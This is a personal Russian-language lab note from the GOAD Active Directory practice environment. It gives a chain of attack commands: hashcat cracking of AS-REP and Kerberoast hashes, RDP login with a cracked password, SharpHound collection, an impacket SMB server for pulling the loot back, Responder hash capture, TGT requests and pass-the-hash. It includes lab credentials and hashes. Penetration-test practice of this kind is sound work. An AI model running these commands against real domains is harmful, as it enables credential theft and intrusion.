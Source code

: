 hashcat -m 18200 hashBRANDON.txt /usr/share/wordlists/rockyou.txt
[[Goad/pass+log|pass+log]]

hashcat -m 13100 --force -a 0 kerberoasting.hashes /usr/share/wordlists/rockyou.txt --force
Ломаем сразу kerberoasting.hashes так как прошлой командой сохранили их (cme ...... --kerberoasting KERBEROASTING)
Из трех хешей сломался только jon.snow [[Goad/pass+log|pass+log]]


xfreerdp /v:192.168.56.11 /u:jon.snow /p:iknownothing /d:north /w:1900 /cert-ignore

закидываем sharphound
собираем информацию с 3 доменов
sharp.exe -d north.sevenkingdoms.local -c all --zipfilename bloodhound_north.zip

поднимаем smb сервер impacket-smbserver goad ~/Desktop/GOAD -smb2support -username smb -password smb 
передаем полученные зип файлы к себе (cmd= copy \\IP\share-name(goad)\file path-to=-file) через проводник т.к  cmd не дает перекинуть

запускаем bloodhound и neo4j и закидываем файлы ( И НИЧЕГО НЕ РАБОТАЕТ)

Запускаем листинер для получения хешей
sudo responder -I tap0
``` 
ПОЛУЧЕНИЕ ТИКЕТА(билета) ПОЛЬЗОВАТЕЛЯ 
 impacket-getTGT north.sevenkingdoms.local/jeor.mormont -aesKey be10f893afa35457fcf61ecc40dc032399b7aee77c87bb71dd2fe91411d2bd50 -dc-ip 192.168.56.11 
 2007  export KRB5CCNAME=jeor.mormont.ccache
 2008  KLIST

```
Получив хеши пользователей [[Сканы и энумерация]] подключаемся к smb .11 ( `impacket-smbclient -hashes aad3b435b51404eeaad3b435b51404ee:6dccf1c567c56a40e56691a723a49664 -dc-ip 192.168.56.11 north/jeor.mormont@192.168.56.11` ) и проверяем папки. Находим пароль 
![[Pasted image 20241224122204.png]]

hashcat -m 18200 hashMISSANDEI.txt /usr/share/wordlists/rockyou.txt
